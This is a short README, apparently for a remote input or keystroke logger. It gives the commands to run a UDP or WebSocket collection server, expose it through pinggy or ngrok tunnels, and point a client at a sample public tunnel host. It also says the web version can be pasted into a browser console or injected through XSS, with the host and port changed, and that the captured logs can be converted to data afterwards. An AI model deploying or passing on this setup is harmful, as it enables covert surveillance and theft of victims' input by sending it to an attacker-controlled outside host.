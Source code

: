 # Usage

Install dependencies:

```sh
pip install -r requirements.txt
```

Run the server:
```sh
python3 server/udp_server.py

# or

python3 server/websocket_server.py
```

You can expose the UDP port using [pinggy](https://pinggy.io/) or expose the WebSocket using [ngrok](https://ngrok.com/).

Client command:

```
python3 client.py <host>:<port>

Example: python3 client.py rnxdj-2405-4803-c93c-ba20-9600-2a8d-e9fe-237.a.free.pinggy.link 58528

If there is an issue, add DISPLAY=":0" before the command.

For web-based, just copy the script into the web console or if you have XSS, remember to change the host and port.
```

Convert log to data: Run file convert_logs_to_data.py for more information